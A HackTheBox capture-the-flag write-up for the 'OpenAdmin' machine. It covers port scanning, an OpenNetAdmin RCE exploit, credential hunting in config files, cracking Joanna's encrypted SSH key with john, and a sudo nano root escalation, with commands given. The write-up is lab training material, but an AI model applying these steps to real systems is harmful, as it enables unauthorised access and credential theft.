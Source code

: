 ```yaml
---
layout: single
title: "OpenAdmin Write-Up: HackTheBox"
excerpt: "OpenAdmin was a fun, easy machine with an interesting internal web application."
classes: wide
categories: [hackthebox]
date: 2020-05-02
tags: [hackthebox, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\openadmin\banner-openadmin.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "book-dead"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\openadmin\banner-openadmin.png)
## TL;DR
OpenAdmin was a fun, easy machine with an interesting internal web application. With only two open ports, SSH (22) and HTTP (80) the attack surface is minimal. Web enumeration revealed a few web applications, one being an outdated OpenNetAdmin IP Address Management (IPAM) system (v18.1.1), which allowed RCE as the www-data user. Once we obtained a shell, system enumeration revealed stored credentials which allowed us to pivot via SSH to another user (Jimmy) and capture the user flag. The Jimmy user was also part of a unique group that allowed us access to an internal web application that output the SSH private key (encrypted, but easily cracked) to another user (Joanna). Joanna had sudo privileges to run Nano, which using the help of GTFOBins, gave us a root shell.

## Nmap Port Scan
```bash
nmap -sCV -p- -oN nmap/openadmin-full 10.10.10.171
```


## Web Enumeration

`rustbuster dir -u http://10.10.10.171 -w /opt/SecLists/Discovery/Web-Content/common.txt -t 25`
![](\assets\images\htb\openadmin\rustbuster-openadmin.png)

`http://10.10.10.171/music/` Clicking Login, takes us to an ONA interface.
![](\assets\images\htb\openadmin\rustbuster-musicweb-openadmin.png)

OpenNetAdmin IP Address Management (IPAM) system
`http://10.10.10.171/ona/`
![](\assets\images\htb\openadmin\ona-openadmin.png)

## OpenNetAdmin Exploitation

Searchsploit revealed a couple of exploits for the version, one with Metasploit and one without. 
![](\assets\images\htb\openadmin\search-openadmin.png)

Copying the bash script directly from searchsploit left a few random carriage returns, etc., so the script needed a little cleanup. But after being cleaned up, it worked and we have a rudimentary shell as www-data.
![](\assets\images\htb\openadmin\exploit-openadmin.png)

I uploaded, upgraded and executed a proper php shell. 
![](\assets\images\htb\openadmin\phpshell-openadmin.png)

{% gist 32cc7df561b8076201312e4fc5294f14 %}

Time to enumerate! Quick hits with some grepping came up with:
![](\assets\images\htb\openadmin\database_settings-openadmin.png)

`egrep -R 'password|pass'`

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

Enumerating the database gives some hashes.
![](\assets\images\htb\openadmin\OpenAdmin-HTB.gif)

The hashes were essentially useless. But we have another way! A quick look at `/etc/passwd` reveals two regular users: jimmy & joanna. A quick try with jimmy and the n1nj4W4rri0R! password gets us a SSH session and some interesting finds with LinPEAS!
![](\assets\images\htb\openadmin\linpeas1-openadmin.png)
![](\assets\images\htb\openadmin\linpeas2-openadmin.png)
![](\assets\images\htb\openadmin\linpeas3-openadmin.png)

So it appears our friend Jimmy (and Joanna) is in an "Internal" group which has write access to "/var/www/internal". A quick telnet/curl to the unusual port reveals it is an Apache service hosting "internal.openadmin.htb". Putting two and two together, it is probably serving the internal directory. Let's check out that directory.

Well, it appears we can get Joanna's SSH private key:
main.php 
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Easy enough.
![](\assets\images\htb\openadmin\joannakey-openadmin.png)

It's encrypted, so we use:

`/usr/share/john/ssh2john.py joanna.key > joanna.hash`

`john joanna.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John made quick work of it, even in a VM.
![](\assets\images\htb\openadmin\john-openadmin.png)

We get in and capture user.txt.
![](\assets\images\htb\openadmin\user-openadmin.png)

Interesting:
![](\assets\images\htb\openadmin\sudo-openadmin.png)

GTFOBins shows us we can get a shell with Nano, let's try it.
![](\assets\images\htb\openadmin\sudo_gtfobins-openadmin.png)

`sudo /bin/nano /opt/priv`
![](\assets\images\htb\openadmin\root-openadmin.png)

It worked!